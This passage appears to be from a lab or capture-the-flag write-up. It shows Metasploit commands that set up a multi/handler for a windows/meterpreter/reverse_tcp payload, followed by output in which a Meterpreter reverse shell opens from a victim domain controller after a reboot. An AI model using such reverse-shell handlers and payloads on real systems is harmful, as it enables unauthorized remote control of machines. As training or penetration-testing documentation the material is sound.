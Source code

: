 Set a new multi handler to use `windows/meterpreter/reverse_tcp`

``` sh
use exploit/multi/handler
use windows/meterpreter/reverse_tcp
```

??? output "exploit/multi/handler"
    ``` txt
    Global
    ======

    No entries in data store.

    Module: multi/handler
    =====================

    Name                    Value
    ----                    -----
    ContextInformationFile
    DisablePayloadHandler   false
    EnableContextEncoding   false
    ExitOnSession           true
    LHOST                   10.10.119.134
    LPORT                   5555
    ListenerTimeout         0
    PAYLOAD                 windows/meterpreter/reverse_tcp
    VERBOSE                 true
    WORKSPACE
    WfsDelay                2
    ```

After a reboot of the victim we get a new shell:

??? output "exploit/multi/handler"
    ``` txt
    [-] Handler failed to bind to 10.10.119.134:4444:-  -
    [*] Started reverse TCP handler on 0.0.0.0:4444
    [*] 10.10.119.134 - Meterpreter session 3 closed.  Reason: Died

    msf6 exploit(multi/handler) > run

    [-] Handler failed to bind to 10.10.119.134:4444:-  -
    [*] Started reverse TCP handler on 0.0.0.0:4444
    C:\Users\Administrator\AppData\Local\Temp\[*] Sending stage (175174 bytes) to 10.10.119.134
    [*] Meterpreter session 4 opened (10.9.193.173:4444 -> 10.10.119.134:49750) at 2021-09-23 15:45:54 -0400

    meterpreter > sysinfo
    Computer        : DOMAIN-CONTROLL
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : CONTROLLER
    Logged On Users : 9
    Meterpreter     : x86/windows
    ```
